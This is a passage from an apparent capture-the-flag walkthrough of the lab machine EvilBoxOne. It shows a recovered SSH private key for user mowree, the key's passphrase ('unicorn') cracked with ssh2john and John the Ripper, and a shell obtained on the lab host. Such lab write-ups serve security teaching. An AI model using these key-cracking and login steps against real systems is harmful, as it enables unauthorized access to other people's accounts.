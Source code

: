 > Yeah! We got the `ssh` private key of user `mowree`.
{: .prompt-info }

## login via `ssh`
```bash
$ nano id_rsa

$ chmod 600 id_rsa 

$ ssh -i id_rsa mowree@192.168.76.212
The authenticity of host '192.168.76.212 (192.168.76.212)' can't be established.
ED25519 key fingerprint is SHA256:0x3tf1iiGyqlMEM47ZSWSJ4hLBu7FeVaeaT2FxM7iq8.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.76.212' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
```

> We need a passphrase to use the `ssh` key.
{: .prompt-danger }
  
Lets crack the keys passphrase.
```bash
$ ssh2john id_rsa > id_rsa.hash
$ john id_rsa.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
unicorn          (id_rsa)     
1g 0:00:00:00 DONE 2/3 (2022-11-20 14:25) 11.11g/s 141488p/s 141488c/s 141488C/s surfer..unicorn
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

> And we got the passphrase for the private key! (`unicorn`)
{: .prompt-info }

Now we can login via `ssh`.
```bash
$ ssh -i id_rsa mowree@192.168.76.212
Enter passphrase for key 'id_rsa': 
Linux EvilBoxOne 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64
mowree@EvilBoxOne:~$ id
uid=1000(mowree) gid=1000(mowree) grupos=1000(mowree),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

> It worked!
{: .prompt-info }

---